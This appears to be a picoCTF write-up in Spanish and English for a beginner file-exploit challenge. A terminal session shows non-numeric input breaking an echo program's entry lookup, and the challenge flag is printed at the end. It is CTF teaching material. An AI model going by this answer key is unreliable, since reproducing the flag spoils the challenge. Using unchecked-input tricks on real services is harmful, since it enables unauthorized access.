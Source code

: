# Retos PicoCTF


## Objetivo 
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/140/program-redacted.c).

Additional details will be available after launching your challenge instance.
## Solución 

```
┌──(kali㉿kali)-[~/picoCTF/retos-resueltos/binexp/basicfileexploit]
└─$ nc saturn.picoctf.net 51610
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
jesus 
jesus
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
jesus
Read successful, would you like to do anything else?
0
0
Please put in a valid number
adasdasdasddasddasd
adasdasdasddasddasd
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
Please put in a valid number
a
a
Please put in a valid number
0
0
Please put in a valid number
2
2
Please enter the entry number of your data:
asdasdasdasd
asdasdasdasd
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}

```

## Notas adicionales 

## Referencias 
